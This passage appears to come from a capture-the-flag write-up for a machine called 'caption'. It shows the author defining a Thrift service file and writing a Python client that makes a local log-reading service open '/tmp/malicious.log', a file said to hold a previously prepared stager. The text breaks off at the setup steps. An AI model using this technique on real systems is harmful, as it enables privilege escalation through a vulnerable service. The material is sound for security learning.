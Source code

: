 Furthermore the app uses the [Thrift framework](https://thrift.apache.org/), I never came across this before so i had to document myself on this.

I created a Thrift file 

```bash
margo@caption:~$ nano service.thrift
margo@caption:~$ cat service.thrift

namespace go log_service

service LogService {
    string ReadLogFile(1: string filePath)
}
margo@caption:~$
```
From there i used thrift to generate a python client then download all the package to my attacking machine 

```bash
margo@caption:~/gen-py$ nano client.py
margo@caption:~/gen-py$ cat client.py
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from service import LogService  # Import generated Thrift client code
 
def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)
 
    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)
 
    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)
 
    # Create a client to use the service
    client = LogService.Client(protocol)
 
    # Open the connection
    transport.open()
 
    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"
 
        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)
 
    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")
 
    # Close the transport
    transport.close()
 
if __name__ == '__main__':
    main()
```
The client application should include the log file containing the stager I previously configured. To proceed, create a Python virtual environment and install the thrift library using the following command on your attacker vm:
